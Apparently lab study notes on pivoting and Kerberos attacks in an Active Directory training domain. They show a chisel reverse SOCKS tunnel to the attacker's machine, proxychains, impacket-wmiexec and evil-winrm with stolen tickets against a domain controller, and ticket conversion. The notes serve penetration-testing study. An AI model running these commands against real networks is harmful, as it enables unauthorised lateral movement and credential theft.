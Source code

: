 Linikatz
- download from github
- execute

### Attacking from your linux machine

This uses `chisel`, `proxychains`, `impacket`, and an example with `evil-winrm` 

If you want to use Linux attack tools from your host machine, you need to proxy your traffic through the machine that gave you access. This example connects to `ms01`
- edit the `etc/hosts` file and add the LOCAL IP addresses of the access machine and the target domain controller. Also add the domain names
	- ex. `172.16.1.5  ms01.inlanefreight.htb ms01`
	- `172.16.1.10  inlanefreight.htb dc01.inlanefreight.htb dc01`
- modify the proxychain config to use socks5 and port 1080
	- `cat /etc/proxychains.conf`
	- should have the line `socks5 127.0.0.1 1080`
- Download chisel (github .gz file from releases)
	- `sudo ./chisel server --reverse`
	- connect to target with RDP, make sure it has chisel downloaded
		- `xfreerdp /v:[target] /u:[user] /d:inlanefreight.htb /p:[pass] /dynamic-resolution`
	- execute chisel on target and connect back to attacking machine
	- `c:\tools\chisel.exe client [IP]:[port] R:socks`
- Transfer files you need, such as a keytab from a Linux machine on the network, through proxy machine (`ms01`)

Impacket via proxychain
- Use the ticket you transferred with `impacket` and `proxychains` (compatible with a proxychain setup)
- Set the ticket to the `KRB5CCNAME` environment variable
	- some implementations of AD use the `FILE:` prefix in the file path when setting this variable, meaning the path for the variable needs to only include the path to the ccache file (not the file name at the end)
- `proxychains impacket-wmiexec [DC hostname] -k`


Evil-WinRM via a proxychain
- edit the `/etc/krb5.conf` file to change the `default_realm` and `kdc`
	- default_realm is the domain (`inlanefreight.htb`)
	- KDC is the controller address (`dc01.inlanefreight.htb`)
- `proxychains evil-winrm -i dc01 -r inlanefreight.htb`

Additionally, you can convert `ccache` (linux) to `kirbi` (windows) with `impacket`
- `impacket-ticketConverter [ccache file] [kirbi output]`